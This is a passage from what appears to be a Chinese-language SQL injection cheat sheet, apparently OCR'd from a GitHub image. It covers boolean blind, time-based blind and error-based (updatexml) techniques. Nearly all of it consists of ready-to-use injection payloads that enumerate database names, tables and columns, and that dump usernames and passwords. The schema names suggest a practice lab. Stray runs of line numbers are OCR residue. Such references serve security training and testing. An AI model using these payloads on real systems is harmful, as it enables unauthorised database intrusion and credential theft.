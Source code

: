 ```sql
id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' --+
/*爆字段名*/
id=1' and substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d' --+
/*爆字段内容*/
id=1' and substr((select email_id from emails limit 0,1),1,1)='x' --+
1234567891011121314151617181920
```

##### 时间盲注

时间盲注和布尔盲注很像，页面不返回任何信息，采用延迟函数根据页面反应的时间进行判断是否存在注入点

```sql
# 爆数据库长度
?id=1' and if(length(database())>1,sleep(6),1) --+
# 爆数据库名
?id=1' and if(substr(database(),1,1)='s',sleep(6),1) --+
# 爆表名
?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(6),1) --+
# 爆字段名
?id=1' and if(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d',sleep(6),1) --+
# 爆字段内容
?id=1' and if(substr((select email_id from emails limit 0,1),1,1)='x',sleep(6),1) --+
12345678910
```

##### 报错注入

- updataxml

```sql
updatexml(Xml_document,Xpathstring,new_value)
    Xml_document：目标文档
    Xpathstring：路径
    new_value：更新的值

爆数据库名：
username=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
爆数据库表名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ),0x7e),1) --+
爆字段名：
username=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+
爆数据值：
username=1' and updatexml(1,substring(concat(0x7e,(select group_concat(username,0x3a,password,0x3a) from test.users),0x7e),32,64),1) --+
12345678910111213
```
